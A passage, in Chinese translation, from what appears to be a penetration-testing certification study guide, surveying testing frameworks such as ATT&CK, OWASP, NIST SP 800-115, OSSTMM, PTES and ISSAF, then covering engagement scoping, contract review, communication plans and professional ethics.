这些 ATT&CK TTP（战术、技术和程序）随后可用于使用通用语言描述渗透测试攻击链。有三点值得注意。首先，相同的技术可能存在于多个战术类别中。例如，计划任务可用于持久化或权限提升。其次，ATT&CK 战术和技术不描述攻击实现，仅描述分类。实现特定战术、技术和子技术的方式可能有多种。确定最佳战术和技术来描述渗透测试中的某项操作可能具有主观性，且需要掌握 MITRE 创建 ATT&CK 时所用的逻辑。最后，并非所有攻击都存在于 ATT&CK 中。MITRE 并不包含所有可能的攻击方法，仅包含那些由大型机构定义的高级持续性威胁（APT）公开披露并观察到的行动。在某些情况下，特别是在高级攻击场景中，你执行的操作根本不符合 ATT&CK 框架。

########## OWASP

不适合归入 ATT&CK 的攻击知识的一个绝佳例子是基于应用程序的攻击。OWASP 项目（[`www.owasp.org`](https://www.owasp.org)）是一个非营利组织和开源社区项目，致力于生产与 Web 应用程序安全领域相关的工具、技术、方法论和文档。OWASP 拥有许多知名出版物和资源，例如 OWASP Top Ten（OWASP 十大）、OWASP 测试指南、OWASP ZAP 项目、DirBuster 和 WebGoat（一个故意设计不安全的 Web 应用程序，旨在作为安全编程实践的指南）。


**考试提示** OWASP 专注于 Web 应用程序安全和完整的软件开发生命周期（SDLC）测试，而不仅仅是测试实现。

OWASP Top Ten 为广泛的组织提供了关于最严重 Web 应用程序安全风险的社区认知。数据是从各家专注于应用程序安全的公司统计汇编而成的。如图 1-1 所示，OWASP Top 10 的最新修订版于 2017 年完成。该列表主要旨在帮助组织理解保护 Web 服务的重要性，以及特定弱点对组织可能造成的影响。作为渗透测试人员，该列表是一项重要工件，它描述了高影响区域以及潜在的测试重点。我们将在第 5 章详细讨论基于应用程序的测试。



**图 1-1** OWASP Top 10 – 2017

OWASP Web 安全测试指南涉及专门适用于 Web 应用程序测试关注点的渗透测试范围界定和数据收集概念。作为 OWASP 测试指南与其他方法和标准不同之处的一个例子，它专注于设计审查、代码审查、数据流建模、仅在应用程序实现中发现的弱点的特定测试方法，并涵盖 SDLC 所有阶段的安全测试。其章节包括 Web 应用程序安全测试的信息收集方法、配置与部署管理测试、身份管理、认证、授权、会话管理、输入验证、错误处理、弱加密、业务逻辑、客户端问题以及应用程序编程接口（API）。OWASP 还包含用于特定应用程序渗透测试的工具参考、报告指南，以及关于使用开发工具的信息，这些工具可能帮助应用程序渗透测试人员将其攻击置于上下文中并进行安全研究。


**考试提示** OWASP Top Ten 攻击示例，如跨站脚本和各类注入攻击，非常有用。这些可以帮助你识别考试中引用的是哪种攻击。

########## NIST

美国国家标准与技术研究院（NIST）是一个非监管的美国政府机构。为履行其推动技术进步的使命，他们维护多份描述网络安全和安全测试计划建议的出版物。某些组织（通常在美国政府内部）可能被要求遵循这些出版物，但它们并非对所有公司都具有法律强制力。两份关键出版物是特别出版物 800-115《信息安全测试与评估技术指南》^(10)，该文描述了攻击与测试；以及 NIST 网络安全框架，该框架描述了网络安全的防御层面。^(11)


**考试提示** 美国政府组织及支持它们的公司常引用 NIST 建议和标准。SP 800-115 和网络安全框架共同定义了安全测试方法论（不仅限于渗透测试）和防御最佳实践。

特别出版物 800-115 定义了信息安全评估的方法论。为了描述渗透测试，NIST SP 800-115 使用了一个四阶段模型：规划、发现、攻击和报告，如图 1-2 所示。本章前面我们稍微谈到了该文档为规划提供的资源。对于发现阶段，NIST 定义了网络端口和服务识别、收集主机名和 IP 地址信息、员工目标信息、系统信息（如共享）以及应用程序服务信息（例如版本号）作为信息收集的目标。NIST 通过额外的四个阶段描述攻击阶段，这些阶段被作为一个重复循环引用：获取访问权限、提升权限、系统浏览和安装额外工具。



**图 1-2** 四阶段渗透测试模型

NIST 的进一步建议指出，渗透测试场景应关注最可能且破坏性最大的攻击模式，以及定位和针对系统中可利用的缺陷。这一区别很重要，因为根据报告漏洞可能存在，但它们是否可被利用？这就是渗透测试的角色：在上下文中评估影响和可利用性。


**考试提示** 虽然你可能不需要了解 NIST 标准的每一个字母，但掌握这些知识很有好处，特别是如果你计划与美国政府部门客户合作。对于考试，准备好识别 NIST 标准何时适用，以及它们与其他测试标准的区别。

########## OSSTMM


# ISECOM OSSTMM

ISECOM 发布了开源安全测试方法论手册（OSSTMM），他们将其描述为一种完整的渗透测试方法论，旨在确保测试的彻底性、合法性、一致性和可重复性，且测试过程可度量。ISECOM 还为渗透测试人员提供认证，作为满足合规要求的资质衡量标准。该方法论试图应用一个框架来处理安全测试（不仅限于渗透测试），以便在结构化流程中使用。

OSSTMM 第 3 版提供了一份安全测试审计报告（STAR），其中包含渗透测试结束时应回答的问题，但建议您按照习惯的方式执行测试，前提是您要记录下测试的目标、在这些目标上测试了什么、测试期间发现了什么控制措施，以及在测试期间什么没有被测试。ISECOM 为提交给组织审核的已签署 STAR 条目提供认证。

OSSTMM 建议您通过识别需要保护的资产来定义安全测试，例如被视为重要的数据。然后，列出保护这些资产的控制措施及其所在位置。这划定了测试范围区域。

范围是基于对可能发生与资产交互的总操作环境的考量来确定的，包括所有通道。手册定义了五个通道及其测试方法论：人员、物理、无线、电信和数据网络。在该模型中，数据网络涵盖使用 `TCP/IP` 等协议的有线传输以及所有其他电子系统和数据，而电信是一个专指电话或类电话有线通信的概念。


**考试提示** OSSTMM 提供了最复杂的测试类型定义之一，ISECOM 确实为测试人员和报告提供了认证选项。除了作为一个完整的安全测试方法论（不仅限于渗透测试）外，它还提供了一种客观度量目标攻击面和风险值的方法论。

然后，您需要选择一种测试类型。OSSTMM 提供六种测试类型：盲测、双盲测、灰盒测试、双灰盒测试、协同测试和反向测试，如图 1-3 所示。测试类型在大多数方法论中通用，但通常仅限于三种：黑盒或盲测、灰盒或半盲测，以及白盒或全知测试。在 OSSTMM 中，大多数渗透测试归类为盲测类型，而专门测试（如红队演练）则出现在反向测试类型下。



**图 1-3** OSSTMM 测试类型

在盲测中，对测试广度和深度产生主要影响的是渗透测试人员的技能和效率。防御方完全知晓渗透测试情况，而渗透测试人员除法律要求为定义和限制范围所必需的信息外，不掌握任何公司机密信息。这测试的是非知情攻击者的影响。在双盲测试中，防御方和渗透测试人员均处于非知情状态，这使组织也能测试其防御响应能力。

在灰盒测试中，OSSTMM 将其归类为漏洞评估，会提供一些关于环境的信息（例如架构图和用户访问权限，但不包括源代码）。然而，防御方仅在双灰盒场景下才拥有完全知情权。OSSTMM 将此等同于其他模型中的白盒测试。

OSSTMM 中的协同测试即他人所谓的水晶盒测试，这是一种极端级别的白盒测试，测试人员将获得所有知识，包括源代码。质量的主要限制在于提供给渗透测试人员的信息质量以及目标组织在范围界定过程中的透明度。

另一方面，反向测试旨在在最坏情况下测试防御。这些测试通常用于探索对高技能攻击者或知情内部人员的响应及影响。OSSTMM 指出，此类测试的主要限制在于渗透测试人员的创造力和技能，以及为演练准备而提供给测试人员的信息质量。

OSSTMM 还实施了一系列错误标签（例如真阳性、假阳性、熵错误等），旨在促进测试结果的统计分析，并提供了一系列测试旨在回答的问题。诸如“当前操作如何运作？”、“它们与客户认为的运作方式有何不同？”以及“为了安全，它们应如何运作？”等问题驱动着度量过程。手册确立了分析和报告结果的方法论，包括生成 `rav` 以通过各种数学公式客观展示攻击面的度量。

现在，让我们看一个信息披露如何影响渗透测试的示例。一台面向互联网的服务器暴露了 Web 端口。默认页面为空白。在没有任何其他信息的情况下，您可以尝试基于开源情报（OSINT）收集或通过猜测托管网站的名称来识别虚拟主机。这样做可能会遗漏多个站点，从未评估其安全性。然而，如果客户愿意提供应用程序 URL 列表，您就可以确保根据您的访问权限测试每个应用程序。如果您获得了具有不同访问程度的应用程序账户，您可能会识别出导致权限提升或信息泄露的业务逻辑缺陷。如果您还获得了应用程序的源代码以及数据流的详细演示，您应该能够对应用程序的安全性进行非常彻底的调查，但您发现的问题不一定能代表一个原本不知情的基于互联网的攻击者在攻击同一应用程序时可能发现的问题。这只是测试如何受规划阶段协商的信息量影响的一个例子。

########## PTES

PTES（渗透测试执行标准）是一个社区驱动的项目，旨在建立渗透测试标准，由渗透测试咨询社区的多位专业人士共同贡献。它的创建旨在消除企业在寻求安全测试服务时对“渗透测试”含义的歧义。该标准不提供如何进行渗透测试或使用特定工具的显性说明，但提供了一套单独的技术指南来解决工具和攻击方法问题。该标准还提供了作为渗透测试一部分通常应采取的步骤的最佳实践，包括报告、情报收集、威胁建模和漏洞分析，并解释了利用和利用后阶段范围内的概念。


**考试提示** PTES 独特地专注于渗透测试方法论，而非其他类型的安全测试。它主要适用于从咨询角度出发的渗透测试，并不规定渗透测试的执行细节，而是规定渗透测试应涵盖的内容。它自由地融合了其他框架（例如 OWASP）和技术指南作为补充资源。

########## ISSAF


# 信息系统安全评估框架 (ISSAF)

信息系统安全评估框架 (ISSAF) 由英国开放信息系统安全组织 (OISSG) 提供。ISSAF 是一套完整的安全评估方法论，适用于安全审计以及其他类型的安全测试。它定义了渗透测试的三个阶段：规划与准备、评估、报告与清理。ISSAF 为业务管理提供了最佳实践，包括评估前和评估后的行动；风险评估方法论；以及用于各类安全评估（不仅限于渗透测试）的信息收集。它涵盖了按操作系统划分的特定主机场景，以及不同的渗透测试目标，例如数据库；物理场所和社会工程学；无线网络；Web 应用程序；交换机、路由器、VPN 和防火墙；密码；安全控制（如 IPS/IDS 和防病毒软件）；以及源代码审查。


> **考试提示** ISSAF 是为通用安全评估设计的，而非专门针对渗透测试。虽然它确实包含业务管理（从规划到报告交付）的最佳实践，但 ISSAF 与此处提到的其他标准之间最大的区别在于，它列出了每个测试任务及其相关联的工具。

####### 确定范围时的环境考量

这些标准和方法论中的每一个都为渗透测试范围界定阶段的数据收集提供了建议和模板。但让我们来探讨一下在任何特定模型之外可能遇到的一些环境考量。一般来说，你需要了解客户想要保护什么、他们计划如何保护，并考虑他们*认为*这些防护如何运作与其实际运作方式之间可能存在的差异。但你可能还需要考虑测试的边界和特定需求。三个例子分别涉及网络、应用程序和基于云的资产。

对于网络而言，托管方式可能是最重要的考量因素。如果你的客户使用共享托管，即由另一个组织管理并与其他公司共享的基础设施，他们可能无法向你提供完整的测试授权。你可能需要从托管商或云服务提供商处获得针对特定攻击、工具或方法论的额外授权。如前所述，许多共享托管提供商不允许进行第二层攻击，例如地址解析协议 (ARP) 欺骗，因为这可能会影响使用同一基础设施的其他客户。在这些情况下，你应该确定提供商是谁，是否需要额外的许可或文档，并确保在测试前已妥善处理并记录在案。这也适用于云托管环境，云服务提供商有自己的交战规则，渗透测试人员必须依法遵守。

你可能还需要询问攻击向量上使用了哪些协议和控制措施。针对网络的内部测试可能要求你绕过网络准入控制 (NAC)，从而迫使你调整初始访问计划。在另一种情况下，你可能会要求客户为你的测试系统创建一个入侵防御系统 (IPS) 或 Web 应用程序防火墙 (WAF) 的直通通道，以便在比渗透测试允许的时间更充裕的情况下，考察高级攻击者对应用程序的直接影响。另一个例子是无线测试。大多数国家在 2.4 GHz 频段使用信道 1 到 14。但在北美，仅使用信道 1 到 11。根据业务所在的地理位置，了解适用的无线频段和信道非常重要。

在云世界中，包括虚拟私有云，虚拟化方法和所使用的云服务将影响你的方法论和工具选择。例如，使用了哪些虚拟化技术？Docker 和 Kubernetes 所需的方法与传统托管操作系统不同。软件即服务、基础设施即服务或平台即服务技术（分别称为 SaaS、IaaS 和 PaaS）又如何呢？

对于应用程序，某些组织可能希望避免干扰其用户，因此要求在非生产环境中进行测试。这些环境与生产配置的镜像程度可能会影响测试结果对生产环境的适用性。收集 API 端点信息以及针对测试风格（黑盒、白盒或灰盒）的支持文档也适用于此处。

############### 目标选择

一个组织可能拥有许多资产（人员、流程、设施和技术），认为它们值得保护。这些资产可能分布在世界各地，渗透测试人员可能受托测试所有这些资产或其中的一个样本，以评估其安全性。目标是关键组织资产，一旦被利用，可能会对组织产生负面影响。渗透测试人员需要根据客户提供的相关文档（取决于测试策略），清楚了解待测试的环境，以便对业务目标进行发现和验证。

######## 无线网络

由于邻近性是一个因素，无线网络的物理位置（包括大楼甚至楼层）是无线网络测试所必需的。范围内服务集标识符 (SSID) 的文档记录可确保你仅测试属于你客户的资产。如果无线网络实施了不同的信任级别——例如，公共来宾无线局域网 (WLAN) 与私有企业 WLAN——从每种类型中选择一个或多个样本网络来评估这些信任关系可能会很有用。

################ IP 范围

主机目标可以作为主机名、域名、IP 地址或 IP 范围提供。你需要验证所提供的 IP 范围是否属于客户，并识别出由第三方托管的 IP 范围，因为这可能会影响你的测试授权。一个拼写错误或沟通不畅导致的子网或 IP 地址错误，很容易给你带来严重的授权问题。你可能还希望建立负载均衡器的 IP 地址与后端系统 IP 的对应关系，以避免在发现阶段或暴力破解攻击期间使集群过载。在规划渗透测试时，考虑给定 IP 范围内已占用空间的大小，因为扫描和评估系统所需的时间在大范围内会迅速累积。

################ DNS

除了 IP 目标外，由于与营销提供商等外包协议，主机名和域名也不一定属于你的客户。你可以使用 DNS 侦察来识别未以其他方式指定的其他服务和范围，但始终要与客户确认这些细节，以避免范围蔓延，并确保包含在你的测试授权参数范围内。

######## API 和其他支持资源

根据方法论、组织预算和业务选定的评估类型，客户可能希望提供额外的支持资源以协助渗透测试。这些资源可以是独立的工件，既可以在交战规则 (RoE) 中指定，也可以在 RoE 签署后提供给渗透测试团队。这些资源的示例见 表 1-2。



**表 1-2** 支持资源

######## 物理场所


物理位置将决定差旅要求和设备部署考量。测试方法和测试地点的选择也可能受到被测试控制措施和驻留资产的影响。使用了哪些访问控制机制？这些位置是否对公众开放，还是仅限特定员工？身份和授权如何建立？位置是否有人值守或远程监控？在何种条件下，执法部门会在入侵尝试期间介入？安保人员是否持枪？物理目标是否靠近其他可能无意中受影响的设施（例如，报告可疑行为或共享物理废弃物处理区域）？影响物理入侵测试工具使用的当地法律也需要调查。物理位置信息还可能需要指导您在何处投放诱饵设备或如何部署监控设备。您应该拥有一张“免于入狱”（GOOJF）卡或其他证明您测试授权的文件，以及一个沟通计划，其中包含可在测试开始前与执法部门和物理安保团队进行去冲突和降级处理的联系人。GOOJF 通常作为协商后的交战规则（RoE）的一部分包含在内。

######### 外部目标与内部目标

测试的位置、来源和方向为组织提供了不同的安全视角。测试可以在组织的设施内部进行，也可以在外部进行。内部测试可能检查网络内端点被恶意软件或恶意内部人员攻陷后的状况。外部测试可能评估组织针对基于互联网的攻击者的安全性。这些可能包括使用传统的远程访问方法，例如使用虚拟专用网络（VPN）或探索其他远程暴露服务中的漏洞。

内部评估评价组织系统、应用程序和网络之间的各种信任级别（图 1-4）。内部测试被定义为起源于外围防御（外部防火墙）之后、使用给定访问级别的测试。您可能只有网络连接。有限访问提供了与目标的初始连接，例如到网络交换机的物理连接、Wi-Fi 网络的 SSID 和密码，或拥有被允许列表的 IP 地址。所选访问类型取决于评估类型和约束的总体目标。



**图 1-4** 内部测试


**注意** 在计算机安全中，允许列表和阻止列表是可在网络防火墙、垃圾邮件过滤器、Web 应用程序防火墙（WAF）等中实现的基本访问控制机制。允许列表拒绝列表成员以外的所有内容。阻止列表则相反——它允许列表成员以外的所有内容，但拒绝列表成员。

用户级访问假设具有组织中典型用户基本权限的受信任内部人员身份。可以在本地或账户管理系统（如 `Active Directory`）中创建账户，以模拟用户进行测试。目标是通过权限提升获得更高级别的访问权限。特权访问可用于进行各种类型的测试，包括将本地管理员权限提升到域级访问、检查操作系统补丁级别，或确定系统是否按照特定策略进行配置（例如合规性测试的情况）。

外部测试提供的访问向量比内部测试更有限。这种类型的测试发生在网络安全边界之外，例如互联网（图 1-5）。评估是从恶意攻击者的角度进行的。这种类型的测试通常从侦察开始，使用 OSINT 技术收集组织信息。我们将在第 2 章中更详细地介绍此主题。目标是发现可能被外部攻击者从外部利用的漏洞。



**图 1-5** 外部测试


**注意** 由于访问面向互联网的 Web 应用程序的访问向量（仅限互联网），某些组织可能会假设对这些应用程序的凭证访问或来宾访问仍属于外部评估，而非内部评估。

######### 第一方托管与第三方托管

如果目标托管在第一方环境中，测试活动的协调将更容易，因为客户拥有设备，测试仅受公司政策约束。如果目标托管在第三方环境中，例如云服务提供商（CSP），测试不仅受公司政策约束，还受第三方可接受使用政策的约束。例如，Amazon Web Services（AWS）在其位于 `https://aws.amazon.com/security/penetration-testing` 的渗透测试客户支持政策中定义了禁止和允许的活动，以及请求批准其他类型模拟事件的程序。

######## 合同审查

公司通常根据特定的业务目的或职能进行组织。了解您工作所支持的组织的目的或职能非常重要，因为这决定了公司内部的汇报层级和责任。基于此理解，您需要确定约束的利益相关者，以便进行沟通、交付和项目协调的其他方面。通常，利益相关者包括以下人员：

- 高级管理层
- 合同或法务部门
- 安保人员
- IT 部门成员
- 渗透测试人员

**高级管理层**（资深管理层）通常负责组织的总体目标和成功，通常未经其书面授权和批准不允许进行测试。**合同主管**或**法律代表**可能需要审查和执行所有参与方在约束中的法律和合同承诺。**安保人员**和**IT 部门成员**对于沟通组织安全策略和响应意外中断（账户锁定、服务中断等）至关重要。**渗透测试人员**对约束的成功至关重要，因为他们负责识别组织安全支持结构中的弱点，并模拟适用于组织威胁概况的攻击。了解责任方将有助于建立有效的沟通策略和升级路径，以修复约束期间出现的问题。


**注意** 利益相关者是信息消费者，不仅仅是升级点。每个群体对流程都有不同的理解和期望。例如，高级管理层将希望了解基本信息和更新，以便在约束期间和之后为组织做出战略决策。他们不像 IT 部门或安保人员那样关心渗透测试报告的技术细节。这些不同的理解应影响渗透测试人员在通话、电子邮件和报告中的沟通（信息类型和呈现方式）。


# 范围界定工作的一部分将涉及与一个或多个利益相关者讨论测试的性质。您需要审查合同和文档，以确保您已具备执行测试的所有要求，并核实双方对测试条款有共同的理解。以下是您可能会审查的一些详细示例。

####### 时间管理

客户和顾问很可能已经为规定数量的测试时间以及在约定期间内要覆盖的特定工作量进行了规划和预算。您需要审查测试计划的开始和结束时间，以及客户与测试相关的任何截止日期或时间表。此外，您可能需要审查拟定的测试目标和范围，以确保工作能在规定的时间范围内合理完成。如果情况并非如此，您可能需要讨论缩减范围、调整预算或修改方法论，以使其符合这些条款。对于可能需要同时管理多个约定的渗透测试人员，时间管理还必须考虑撰写报告、交付结果以及处理任何后续问题所需的时间，以确保一个约定的需求不会影响另一个约定的执行。

################ 限制

在合同审查期间，您还需要讨论对测试施加的任何限制，包括测试时间、允许的方法论或工具的限制，以及测试人员责任的限制。目的是确保这些条款被双方共同理解、接受，并在合同和规划文档中正确无误。测试限制可能会影响测试结果，没有任何渗透测试人员能保证妥协（被攻破）是不可能的，或已识别出每一个可能的漏洞。确保这些内容被清晰陈述、讨论并为所有各方所理解，对于成功的约定至关重要。

####### 期望设定与 SLA

传统上，服务级别协议（SLA）定义了客户与服务提供商之间期望的衡量标准，以及未满足这些期望时的处理条款。通常，这适用于渗透测试人员外部于被测组织的约定，但即使是内部渗透测试团队，也常因其运作方式、交付成果及交付时间而被追责。可能属于 SLA 范围的项目示例包括质量、及时性或成本的衡量指标。这些信息通常作为工作说明书（SOW）的一部分加以处理，但单独的文档可能规定报告何时必须交付、合同签署后多久必须启动测试、启动后多久测试活动必须结束，等等。这还包括为澄清测试目标或合同语言而进行的沟通响应，或在合理时间内安排测试活动。主服务协议（MSA）通常会规定如果测试人员未满足其文档化的期望，客户可采取的补救措施，反之亦然。例如，MSA 可能会记录如果未满足协议条款，将没收合同金额的全部或部分作为财务惩罚。

####### 沟通规划

确保渗透测试成功的重要部分是沟通。沟通有许多充分的理由。与客户的沟通提供了解冲的能力，即将您的渗透测试痕迹与真实入侵的痕迹进行区分的过程，例如。如果在测试进行期间发生事件或中断，管理员可能会迅速将渗透测试视为问题的原因，即使这些事件是由环境中的其他活动引起的。在规划阶段，您需要与客户讨论沟通计划。他们可能对沟通间隔有特定要求，或者有除参与渗透测试规划人员以外的联系点，需要在特定测试情况下收到警报。通常，沟通计划应涵盖何时沟通、沟通什么内容、向谁沟通以及如何沟通。这可能包括非正常营业时间测试的值班电话、紧急情况的升级电话，以及供双方共享的客户利益相关者和渗透测试人员的直接联系信息。

######## 沟通路径

在交战规则（RoE）中需要正确定义沟通升级路径，以帮助解决测试期间可能出现的问题。除了确定联系人无响应时该怎么做之外，升级路径还有助于定义指挥链，并帮助解决和管理冲突。如果在测试期间关键服务或系统宕机，渗透测试团队将已经知道拨打电话上的哪些按键才能让指挥链中的人知晓发生了什么。如果组织有网络运营中心（NOC），他们可能已经知道服务宕机了。然而，知道该事件并非真正的敌对威胁导致，能减少为补救情况所需的警报和调查数量。



######## 沟通触发器

沟通触发器是渗透测试人员（或渗透测试团队）应联系客户的重要指标。其中一些指标包括关键发现、完成约定中的特定阶段（测试活动或里程碑）、着手进行潜在高风险测试（例如，针对生产环境 Web 应用程序执行潜在的 SQL 注入）、可能存在的先前妥协指标，以及任何导致需要重新调整目标的情况。当渗透测试人员在网络上发现关键发现时，例如防火墙外部任何互联网用户均可利用的公开可利用漏洞，应将其告知客户，以便应用适当的缓解措施防止潜在的妥协风险。在渗透测试期间，您可能会发现恶意软件、恶意二进制文件、服务器上运行的服务，或您和客户均未创建的服务器本地账户。这些先前妥协的指标应立即引起客户的注意。

####### 专业精神与诚信

计算机伦理研究所起草了《计算机伦理十诫》，试图构建人类对计算机的使用朝向善良。^(13) 从那时起，许多组织都尝试记录他们自己对何为合乎道德的计算机用户的衡量标准。但将这些置于渗透测试的背景下考虑是值得的。总体而言，这些准则规定：您不应利用您的权力伤害他人、干扰他人工作、窥探他人数据、窃取、作伪证、使用未付费的专有软件、未经授权或补偿使用他人计算机、挪用他人想法、在不考虑软件社会后果的情况下设计软件，以及对他人漠不关心或不尊重。

这些都适用于渗透测试，因为渗透测试需要高度的信任，因此要求极高的诚信和专业精神。信任不仅必须赢得，还必须为未来的渗透测试机会而保持。您拥有通常受到高度保护的信息访问权，如果在适当背景之外泄露，可能会给委托您这一重要任务的组织造成重大实质性损害。让我们进一步谈谈什么是成为该信任的良好管理者。


**注意** Mark Rasch 在 Security Current 上发表的文章“渗透测试中的法律问题”从宏观层面涵盖了许多此类问题，值得一读：[`securitycurrent.com/legal-issues-in-penetration-testing/`](https://securitycurrent.com/legal-issues-in-penetration-testing/)

######## 沟通

我们已经将沟通触发点和沟通渠道作为沟通计划的一部分进行了讨论。诚信要求你始终诚实，并在明显有错时勇于承担错误。注意：承担责任并不总是意味着认罪。我们稍后将讨论降级处理。职业素养要求你在预期的时候进行沟通，并遵循沟通计划。你还应确保冷静、清晰地进行沟通，考虑到目标受众，并了解态势，以便妥善处理。

在第 10 章（Chapter 10）中，我们将讨论渗透测试结果的呈现，并描述你可能面对的不同目标受众。但目前，请明确一点：你可能正在与技术人员、高管，甚至是对你的工作性质和结果感兴趣的第三方利益相关者打交道。针对这些群体中的每一个，你都应努力保持专业，了解他们需要知道什么，并根据他们的需求定制你的信息。作为渗透测试员，你的目标是不让懂技术细微差别的人觉得你居高临下，同时又要取得平衡，让需要你专业知识来管理业务的商业领袖认为你知识渊博，而不至于把你视为“技术宅”而予以忽视。

